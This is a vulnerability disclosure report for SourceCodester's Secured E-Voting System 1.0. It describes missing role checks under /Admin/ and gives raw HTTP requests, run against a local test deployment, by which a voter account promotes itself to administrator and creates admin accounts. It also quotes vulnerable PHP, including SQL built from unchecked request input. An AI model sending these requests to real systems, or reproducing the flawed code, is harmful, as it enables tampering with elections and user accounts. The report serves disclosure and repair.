



# SourceCodester Secured E-Voting System 1.0 /Admin/edit_voter.php id=&role= Missing Role-Based Access Control allows Privilege Escalation to Administrator

## NAME OF AFFECTED PRODUCT(S)

- Secured E-Voting System (St Paul Academy Alumni 2001 set e-voting portal)

## Vendor Homepage

- https://www.sourcecodester.com/php/18790/secured-e-voting-system.html

## AFFECTED AND/OR FIXED VERSION(S)

### submitter

- (submitter name pending user confirmation — will be filled from vuldb.txt account at submission time)

## Vulnerable File

- /Admin/edit_voter.php (systemic: all 30+ files under /Admin/)

## VERSION(S)

- 1.0 (current public download, 2026-11)

## Software Link

- https://www.sourcecodester.com/download-code?nid=18790&title=Secured+E-Voting+System+using+PHP+and+MySQL+Source+Code

# PROBLEM TYPE

## Vulnerability Type

- Broken Access Control / Missing Role-Based Authorization → Privilege Escalation (CWE-862 / CWE-269)

## Root Cause

- Every file in the `Admin/` directory guards only the **fact of being logged in**, never the **role**. The application defines three roles (`eleco` = election coordinator/admin, `candidate`, `voter`) but the admin pages check only:

```php
// Admin/edit_voter.php:5 — the ONLY authz in the file
if (empty($_SESSION['user_id'])) {
    header("Location: ../login"); exit;
}
```

- The decisive sink: `edit_voter.php` accepts `role` and `is_verified` **directly from POST** and writes them to an arbitrary user id, with no whitelist and no ownership/role check:

```php
// Admin/edit_voter.php:39-40
$role = $_POST['role'];
$is_verified = $_POST['is_verified'];
```

```php
// Admin/edit_voter.php:60 (UPDATE built with these values)
UPDATE users SET fullname=..., role='$role', is_verified='$is_verified', ... WHERE id='$_GET[id]'
```

- Same pattern in `Admin/add-user.php:26-40` (`role` from POST, any role creatable), `Admin/delete_user.php`, `Admin/disable_enable_user.php`, `Admin/vote_record.php`, `Admin/live_results.php`, `Admin/settings.php`, etc.

## Impact

- Full privilege escalation: a low-privileged **voter** (or candidate) account can (a) promote **itself** to the `eleco` administrator role with one request, (b) create arbitrary-role accounts, (c) delete/disable other users, and (d) read decrypted ballot data. Complete takeover of the election management panel — in an e-voting product this means control of elections, candidates and tallies.

# DESCRIPTION

- During the security review of "Secured E-Voting System", a missing role-based access control issue was found across the entire `Admin/` module. Pages only test `empty($_SESSION['user_id'])`, so any logged-in voter can invoke every administrative function. The `role` and `is_verified` fields in `/Admin/edit_voter.php` are taken from the POST body without validation, allowing a voter to elevate their own account to the administrator role (`eleco`) in a single request.

# Login required — but any low-privileged account (voter/candidate) is sufficient; no admin privilege is required

# Vulnerability details and POC

## Vulnerability location:

- `role`, `is_verified` parameters (POST), `/Admin/edit_voter.php?id=<any user id>`

## Steps (all requests against the local deployment at http://127.0.0.1:8138):

1. Log in as a plain **voter** (session obtained via the OTP flow; see report 04). Role of this account in DB: `voter`.
2. Access admin pages as the voter — **no redirect, HTTP 200**:

```
GET /Admin/dashboard HTTP/1.1
Host: 127.0.0.1:8138
Cookie: PHPSESSID=<voter session>
```

```
HTTP/1.1 200 OK        ← voter sees the admin dashboard (should be 302 to login)
```

3. **Self-promotion** — voter edits its own record (`id=35` = the voter's own id) and sets `role=eleco`:

```
POST /Admin/edit_voter?id=35 HTTP/1.1
Host: 127.0.0.1:8138
Cookie: PHPSESSID=<voter session>
Content-Type: application/x-www-form-urlencoded

csrf_token=<token from the page>&fullname=OTP+Brute+POC+06&nickname=otpbrute06&email=otpbrute06@local.test&phone=0711111116&role=eleco&is_verified=1&financial_status=non-active&status=active&update_voter=1
```

```
HTTP/1.1 200 OK   (page shows success toast)
```

4. Database before/after (forensic verification):

```
before: voter          after: eleco, is_verified=1
```

5. Corroborating path — the voter session creates a brand-new `eleco` account via `/Admin/add-user` (POST `role=eleco`), row created: `id=38, role=eleco`.

Full request/response log: `poc/F03-admin-broken-access-control.txt`

## Screenshot: voter session viewing /Admin/dashboard (admin panel rendered from a voter account)



## Screenshot: voter session viewing /Admin/user-record (full user management list)



## Screenshot: DB role before/after the self-promotion (users.id=35 voter → eleco)



# Suggested repair

1. **Central role guard**: a shared `require_role('eleco')` check included by every file under `Admin/` — verify `$_SESSION['role']` against the DB on each request, not just that some session exists.
2. **Never accept role from user input**: `role` and `is_verified` must not be POST parameters in user-editing forms; role changes belong to a dedicated admin-only action.
3. **Ownership checks** on `edit_voter.php?id=`: non-admin users may edit only their own record, and only non-privileged fields.
4. **Deny by default**: rewrite the 30+ `Admin/*.php` guards to whitelist the allowed role instead of only testing "logged in".

# Dedup note

- NVD: 0 CVEs for this product (checked 2026-11-09). VulDB: no entries for this product or the `Admin/` file set.
